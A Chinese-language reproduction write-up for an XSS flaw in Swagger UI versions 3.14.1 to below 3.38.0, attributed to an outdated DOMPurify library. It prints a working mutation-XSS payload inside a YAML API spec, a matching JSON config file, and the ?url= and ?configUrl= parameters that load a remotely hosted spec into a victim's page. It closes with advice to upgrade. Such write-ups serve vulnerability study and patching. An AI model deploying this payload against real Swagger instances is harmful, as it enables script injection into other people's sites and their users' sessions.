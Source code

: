 ﻿# swagger xss漏洞复现
@[toc]

## 漏洞介绍
 Swagger UI 有一个有趣的功能，允许您提供 API 规范的 URL - 一个 yaml 或 json 文件，将被获取并显示给用户
 根本原因非常简单 - 一个过时的库DomPurify

## 影响版本
XSS 影响的 Swagger UI 版本：>=3.14.1 < 3.38.0


## 实现原理
利用允许提供json文件的原理访问公网网站进行弹窗
json网站:https://jumpy-floor.surge.sh/test.yaml
拼接方式
?url=https://your_api_spec/spec.yaml
?configUrl=https://your_api_spec/file.json

yaml配置文件
```yaml
swagger: '2.0'
info:
  title: Example yaml.spec
  description: |
    <math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><img src='#' οnerrοr='alert(document.head)'>">
paths:
  /accounts:
    get:
      responses:
        '200':
          description: No response was specified
      tags:
        - accounts
      operationId: findAccounts
      summary: Finds all accounts
```
json文件配置
```json
{
    "url": "http://IP/test.yaml",
    "urls": [
        {
            "url": "http://IP/test.yaml",
            "name": "Foo"
        }
    ]
}
```
## 漏洞复现
随机找一位受害者访问
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/522bd38da7274489bc1485612e4256b8.png)
进行拼接?url=https://jumpy-floor.surge.sh/test.yaml
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/ae3d16279d4544f0b9b313f4c6063c11.png)
弹窗

## 修复建议:
升级到最新
